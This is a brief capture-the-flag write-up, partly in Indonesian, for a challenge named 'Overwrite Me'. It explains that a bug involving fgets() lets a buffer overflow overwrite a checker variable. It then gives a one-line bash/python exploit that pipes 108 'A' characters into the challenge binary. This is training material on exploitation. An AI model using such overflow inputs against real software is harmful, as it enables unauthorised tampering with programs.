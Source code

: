 # Overwrite Me
---
There's no way you can overwrite my checker variable, right?

nc challenges.traboda.com 8023
# Solver
---
Diberikan sebuah file .c dan binarynya kita harus meng overwrite variabel ```value``` menjadi 1. Terdapat Bug pada ```fgets()``` sehingga kita dapat meng overflow dan mengubah variabel ```value``` menjadi 1 dengan script
```
#!/bin/bash
python -c "print 'A' * 108" | ./chall.chall

```